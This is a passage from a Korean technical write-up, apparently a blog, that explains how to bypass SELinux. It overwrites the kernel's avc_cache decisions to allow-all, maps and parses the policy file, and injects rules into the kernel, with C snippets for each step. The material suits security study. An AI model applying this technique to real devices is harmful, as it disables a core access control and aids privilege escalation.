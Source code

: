 - line 21 : 연결된 다음 avc_node로 넘어간다.

<br>

위 과정을 거치면 결국 `avc_cache.slots`에 있는 모든 avc_node의 decision이 `AVC_DECISION_ALLOWALL` 값으로 overwrite 된다.

<br>
<br>


이를 적용하여 실제로 SELinux를 bypass하는 과정을 처음부터 보면 아래와 같이 이루어진다.

1. avc_cache 주소를 구한다
    
    ```c
    pAvcCache = get_kernel_sym_addr("avc_cache");
    ```
    
2. /sys/fs/selinux/policy 파일을 읽는다. (selinux policy 위치에 따라 파일 위치는 변할 수 있다.)
    
    ```c
    iPolFd = open("/sys/fs/selinux/policy", O_RDONLY);
    ```
    
3. fstat을 이용하여 파일 정보를 얻는다.
    
    ```c
    fstat(iPolFd, &statbuff)
    ```
    
4. avc_cache의 descision 주소를 구해서 overwrite한다.
    
    ```c
    overwrite_avc_cache(pAvcCache)
    ```
    
5. mmap을 통해 selinux 파일 매핑 후, policyFile 구조체 세팅한다
    
    ```c
    pPolicyMap = mmap(NULL, statbuff.st_size, PROT_READ | PROT_WRITE, MAP_PRIVATE, iPolFd, 0);
    
    pPolicyFile->type = PF_USE_MEMORY;
    pPolicyFile->data = pPolicyMap;
    pPolicyFile->len = statbuff.st_size;
    ```
    
6. SE policy를 read한다
    
    ```c
    policydb_init(pPolicyDb)
    policydb_read(pPolicyDb, pPolicyFile, SEPOL_NOT_VERBOSE)
    ```
    
7. 앞서 overwrite한 avc_cache를 selinux policy에 삽입하고 커널에 적용한다
    
    ```c
    add_rules_to_sepolicy(pAvcCache, &policydb)
    //...
    inject_sepolicy(pAvcCache, &policydb)
    ```
    